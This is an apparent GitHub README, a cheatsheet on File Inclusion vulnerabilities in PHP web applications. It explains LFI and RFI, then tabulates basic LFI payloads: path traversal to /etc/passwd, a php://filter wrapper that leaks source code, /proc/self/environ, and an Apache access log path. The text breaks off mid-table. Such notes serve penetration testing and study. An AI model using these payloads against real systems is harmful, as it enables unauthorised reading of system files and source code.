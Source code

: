# 🪤 File Inclusion Cheatsheet

A running log of techniques, payloads, and workflow notes for identifying and exploiting **File Inclusion** vulnerabilities in web applications.

---

## 🔍 What is File Inclusion?

**File Inclusion** vulnerabilities occur when a web application dynamically loads files based on user input, without proper validation or sanitization. This can allow an attacker to include:

- **Local files** (on the same server) → *Local File Inclusion (LFI)*
- **Remote files** (from external sources) → *Remote File Inclusion (RFI)*

These bugs often occur in PHP applications using `include()`, `require()`, etc.

---

## 🧪 Basic LFI Payloads

| Payload | Description |
|--------|-------------|
| `?file=../../../../etc/passwd` | Reads sensitive local files (Linux) |
| `?file=/etc/hosts` | Alternate target, often unblocked |
| `?file=./index.php` | Attempt to read application source code |
| `?file=php://filter/convert.base64-encode/resource=index.php` | Base64 encode and view source code |
| `?file=/proc/self/environ` | Useful in log/session injection chains |
| `?file=../../../../../var/log/apache2/access.log`